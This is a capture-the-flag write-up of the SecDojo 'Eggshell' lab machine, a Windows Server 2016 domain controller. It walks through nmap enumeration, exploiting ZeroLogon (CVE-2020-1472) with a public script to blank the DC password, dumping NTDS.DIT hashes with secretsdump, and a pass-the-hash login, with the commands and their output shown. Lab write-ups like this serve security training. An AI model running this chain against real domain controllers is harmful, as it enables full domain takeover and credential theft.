 ```yaml
---
title: "SecDojo - Westeros Lab"
author: [Sesco]
subtitle: "Eggshell machine write up"
date: "2022-12-29"
keywords: [Windows, Security, CTF, Hacking]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "243763"
titlepage-rule-color: "8ac53e"
...
```



# Information

- **Name:** Westeros Lab - Eggshell Machine
- **Profile:** SecDojo
- **Difficulty:** Easy
- **Description:** Westeros is a network of vulnerable Windows servers. Each box suffers from a severe vulnerability that if properly exploited, will grant you administrator access and get you the root flag located at the Administrator desktop folder.

# Enumeration

## Nmap

We begin our reconnaissance by running an Nmap scan checking services and their versions also checking default scripts and testing for vulnerabilities.

```console
$ nmap -Pn -sV -sC 172.16.4.236                       
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-28 15:57 UTC
Nmap scan report for 172.16.4.236
Host is up (0.00038s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-12-28 15:58:17Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: lab.secdojo.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds      Windows Server 2016 Datacenter 14393 microsoft-ds (workgroup: LAB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: lab.secdojo.local, Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: LAB
|   NetBIOS_Domain_Name: LAB
|   NetBIOS_Computer_Name: SRV-DC1
|   DNS_Domain_Name: lab.secdojo.local
|   DNS_Computer_Name: srv-dc1.lab.secdojo.local
|   DNS_Tree_Name: lab.secdojo.local
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-28T15:58:22+00:00
| ssl-cert: Subject: commonName=srv-dc1.lab.secdojo.local
| Not valid before: 2022-12-27T14:20:17
|_Not valid after:  2023-06-28T14:20:17
|_ssl-date: 2022-12-28T15:59:02+00:00; 0s from scanner time.
Service Info: Host: SRV-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: srv-dc1
|   NetBIOS computer name: SRV-DC1\x00
|   Domain name: lab.secdojo.local
|   Forest name: lab.secdojo.local
|   FQDN: srv-dc1.lab.secdojo.local
|_  System time: 2022-12-28T15:58:23+00:00
| smb2-time: 
|   date: 2022-12-28T15:58:23
|_  start_date: 2022-12-28T14:20:25
|_nbstat: NetBIOS name: SRV-DC1, NetBIOS user: <unknown>, NetBIOS MAC: 06:41:0b:79:e8:1e (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.21 seconds
zsh: segmentation fault  nmap -Pn -sV -sC 172.16.4.236
```

From the above output we can see that ports, **53**, **88**, **135**, **139**, **389**, **445**, **464**, **593**, **636**, **3268**, **3269** and **3389** are the open ports also we found that the running system is **Windows Server 2016 Datacenter 6.3**.

After doing some more enumerations I couldn't find something usefull, so I've used the hint which got me straight into the point, the machine is vulnerable to CVE-2020-1472 aka ZeroLogon that affects Active Directory's domain controller server and exactly one of its protocols called Netlogon Remote Protocol, which helps domain controller to identify and authenticate users and client computers before they are granted access to the network, moreover the encryption implemention Netlogon uses contains a fatal flaw. In short this vulnerability allows us to impersonate a valid user and change the password of any computer account or the domain controller itself which we're going to do.

# Exploitation

I'll be using an online script to exploit our machine. [This script](https://github.com/risksense/zerologon) will set domain controller's password to null.

```console
$ python3 ./set_empty_pw.py SRV-DC1 172.16.4.236
Performing authentication attempts...
=====================================================================================
NetrServerAuthenticate3Response 
ServerCredential:               
    Data:                            b'\x81o\x0e\x1a\xf1#\xaah' 
NegotiateFlags:                  556793855 
AccountRid:                      1008 
ErrorCode:                       0 


server challenge b'\x81=o\xe0\xf8R\x8e\xee'
NetrServerPasswordSet2Response 
ReturnAuthenticator:            
    Credential:                     
        Data:                            b'\x01\xe5\xde8G\xd8\xd1\xe0' 
    Timestamp:                       0 
ErrorCode:                       0 



Success! DC should now have the empty string as its machine password.
```

Now to get the credentials or NTLM hashes we'll have to extract NTDS.DIT data which is a database that stores Active Directory data, including information about user objects, groups and group membership. Importantly, the file also stores the password hashes for all users in the domain.

```console
$ secretsdump.py -just-dc LAB.SECDOJO.LOCAL/SRV-DC1\$@172.16.4.236
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a6cf4e66d7fba60a999debe07bc31a5d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:164c2c62baca5631306fa88d1a603c8e:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

As you can see that's our NTLM hash of the Administrator, let's use Pass-The-Hash attack to get in.

![](./Figure%201.png)
**Figure 1:** *Successful Pass-The-Hash attack*

## Root Flag

![](./Figure%202.png)
**Figure 2:** *Inside Administrator Desktop*

**Flag:** **`Eggshell_Sesco-y4uy0v4h9u1pcr6jhs7mu1nymdmk1t8h`**